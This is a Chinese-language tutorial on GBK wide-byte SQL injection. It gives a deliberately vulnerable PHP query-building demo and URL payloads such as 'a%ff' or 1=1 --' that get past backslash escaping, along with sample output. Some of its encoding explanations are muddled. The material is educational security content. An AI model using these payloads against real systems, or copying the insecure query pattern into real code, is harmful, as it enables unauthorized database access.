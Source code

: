 # 宽字节注入
## 介绍

该漏洞对使用本地化编码(即非utf8)的数据库有效

> gbk: 1个中文占2字节；1个英文占1字节
>
> utf8: 1个中文占3字节；1个英文占1字节

遇到使用gbk编码的数据库时，可拼接字节使英文字符形成汉字达到逃逸符号目的。

### 资源

__[gbk编码表](https://www.qqxiuzi.cn/zh/hanzi-gbk-bianma.php)__

## hex拼接（前端为gbk或utf-8）
### demo
```php
$name = $_REQUEST['name'];
$sql = "select * from user where name='$name' and status=1";
// 引号自动转义（前面加\)
$newSql = addcslashes($sql);
return $newSql;
```

### 引号逃逸测试1
```
url/?&name=a' or 1=1 -- 000
```

输出结果：
```
select * from user where name='a\' or 1=1 -- 000' and status=1
```
反斜杠转义了引号，逃逸失败


### 引号逃逸测试2
反斜杠\的hex为`5c`，我们在反斜杠前面随便添加一个hex格式的字节`ff`，组成`ff5c`,代表汉字`峿`。

f的hex为`66`，为防止ff被url编码转成`%66%66`，我们需要在传url参数时为ff添加一个`%`。

如：
```
url/?&name=a%ff' or 1=1 -- 000
```

输出结果：
```
select * from user where name='a峿' or 1=1 -- 000' and status=1
```



## 更方便当方法-汉字拼接
当前端编码为utf-8，数据库编码为gbk时，可以更方便地转义`\`进行干扰;

前端直接传入utf8汉字拼，如`好`字, hex为`e5a5bd`;

`e5a5bd`与`\`符号`5c`拼接后，数据库gbk编码会将其拆分为`e5a5`和`bd5c`，字符`å¥岽`;

-----

__tip:__
1. 网页默认编码为gbk，数据库编码大概率也是gbk。
2. 使用hex拼接，若传参方式不是url，则需要抓包修改数据包。